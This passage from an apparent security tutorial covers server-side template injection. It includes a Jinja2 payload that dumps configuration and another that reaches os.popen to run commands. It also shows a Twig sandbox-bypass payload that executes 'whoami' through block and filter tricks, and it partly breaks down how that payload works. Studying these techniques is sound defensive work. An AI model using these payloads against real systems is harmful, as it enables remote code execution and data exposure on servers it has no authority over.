 1. **Exploring server configuration**:

- jinja2
- `{{ config.items() }}`

1. This payload can reveal configuration details and environment variables.
2. **Testing for Remote Code Execution**: To assess the severity, I considered using payloads like:

- jinja2
- `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`

1. This payload, if successful, executes a command to display user information on Unix-based systems.

----

## Advanced SSTI:

### Template injection in sandboxed environments

**When direct functions (to read files or execute system commands) are restricted or unavailable,** such as in a sandboxed environment, we'd need to resort to alternative exploitation methods.

_This can be done by looking **for internal pre-defined custom objects** (refer to next section) or chaining objects and using native template engine features.

Let's take a look first at another simplified example.

![[Pasted image 20250622212044.png]]

						Template injection in Twig (PHP)

**In this sandboxed environment, direct functions like `file_get_contents()` or `system()` are blocked.** 

_However, we can exploit the registered global objects by using Twig's native features to bypass the restrictions:

```twig
{%block X%}whoamiINTIGRITIsystem{%endblock%}{%set y=block('X')|split('INTIGRITI')%}{{[y|first]|map(y|last)|join}}
```

To understand why this payload exactly works, let's deconstruct it entirely. 

The first part defines the block named **`X`** with a value equal to the system command that we want to execute, a unique delimiter and the filter:

```
{%block X%}
whoamiINTIGRITIsystem
{%endblock%}
```

The second part is another Twig statement that separates the value declared in block **`X`**:

```
{%set y=block('X')|split('INTIGRITI')%}
```
